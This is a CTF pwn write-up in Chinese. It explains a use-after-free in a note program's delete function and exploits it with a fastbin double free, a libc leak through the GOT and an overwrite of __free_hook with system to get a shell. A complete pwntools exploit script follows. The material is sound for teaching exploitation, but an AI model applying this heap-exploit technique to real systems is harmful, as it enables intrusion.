




```shell
[*] '/home/bamuwe/fastfastfast/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fd000)
```

> $ checksec ./vuln

```shell
1. create note
2. delete note
3. show content
>>>
```

> $ ./vuln

```c
void __cdecl delete()
{
  unsigned int idx; // [rsp+Ch] [rbp-14h] BYREF
  unsigned __int64 v1; // [rsp+18h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts("please input note idx");
  __isoc99_scanf("%u", &idx);
  if ( idx <= 0xF )
    free(note_addr[idx]);
  else
    puts("idx error");
}
```

> delete()漏洞函数,没有清除指针

```python
def add(idx,content):
    io.sendlineafter(b'>>>',b'1')
    io.sendlineafter(b'idx\n',str(idx))
    io.sendlineafter(b'content\n',content)
    
def free(idx):
    io.sendlineafter(b'>>>',b'2')
    io.sendlineafter(b'idx\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'>>>',b'3')
    io.sendlineafter(b'idx\n',str(idx))
```

> 交互函数

程序逻辑:

1. `add()`堆块大小固定`0x71`
2. `free()`后没有清空指针

利用思路:

1. 填满`tcache_bin`构造`fast_bin_attack`,将堆块放在原来有`libc_addr`的地方,泄露出`libc_addr`

   ```python
   for i in range(9):
       add(i,b'a')
   
   for i in range(7):
       free(i)
   free(7)
   free(8)
   free(7)
   ```

   

   要利用`fastbin_attack`要先把`tcachebin`中的堆块利用

   ```python
   for i in range(7):
       add(i,b'a')
   ```

   

   ```python
   add(7,p64(0x4040A8))
   ```

   修改`fd`为目标地址,关于这个地址后文说明

   

   再申请三个堆块就可以得到目标`chunk`

   ```python
   add(8,b'a')
   add(9,b'b')
   add(10,p64(0)*3+p64(elf.got['free']))   #?
   show(0)
   #leak_libc
   free_addr = u64(io.recv(6).ljust(8,b'\x00'))
   lib_base = free_addr-lib.sym['free']
   free_hook_addr = lib_base+lib.sym['__free_hook']
   sys_addr = lib_base+lib.sym['system']
   success(hex(free_addr))
   success(f'free_hook_addr=>{hex(free_hook_addr)}')
   ```

   得到`libc`这里`p64(0)*3+p64(elf.got['free'])`应该是堆块结构有关

2. 修改`__free_hook`地址上的内容为`system`地址,构造`system(/bin/sh)`,得到`shell`

   ```python
   for i in range(9):
       add(i,b'/bin/sh\x00')
   for i in range(7):
       free(i)
   free(7)
   free(8)
   free(7)
   
   for i in range(7):
       add(i,b'a')
   add(7,p64(free_hook_addr))
   add(8,b'a')
   add(9,b'/bin/sh\x00')
   add(10,p64(sys_addr))
   free(9)
   ```

   利用手法同上

关于地址`0x4040A8`:

这是存贮堆块列表的地址,即变量`note_addr`的地址,覆盖其上堆块内容,再打印出来



exp:

```python
#GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.7) stable release version 2.31.
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
context.log_level = 'debug'
io = gdb.debug('./vuln','b *0x401564')
# io = remote('gz.imxbt.cn',20788)
elf = ELF('./vuln')
lib = ELF('./libc-2.31.so')

def add(idx,content):
    io.sendlineafter(b'>>>',b'1')
    io.sendlineafter(b'idx\n',str(idx))
    io.sendlineafter(b'content\n',content)
    
def free(idx):
    io.sendlineafter(b'>>>',b'2')
    io.sendlineafter(b'idx\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'>>>',b'3')
    io.sendlineafter(b'idx\n',str(idx))
    
for i in range(9):
    add(i,b'a')

for i in range(7):
    free(i)
free(7)
free(8)
free(7)

for i in range(7):
    add(i,b'a')

add(7,p64(0x4040A8))
add(8,b'a')
add(9,b'b')
add(10,p64(0)*3+p64(elf.got['free']))   #?
show(0)
#leak_libc
free_addr = u64(io.recv(6).ljust(8,b'\x00'))
lib_base = free_addr-lib.sym['free']
free_hook_addr = lib_base+lib.sym['__free_hook']
sys_addr = lib_base+lib.sym['system']
success(hex(free_addr))
success(f'free_hook_addr=>{hex(free_hook_addr)}')

for i in range(9):
    add(i,b'/bin/sh\x00')
for i in range(7):
    free(i)
free(7)
free(8)
free(7)

for i in range(7):
    add(i,b'a')
add(7,p64(free_hook_addr))
add(8,b'a')
add(9,b'/bin/sh\x00')
add(10,p64(sys_addr))
free(9)

io.interactive()
```

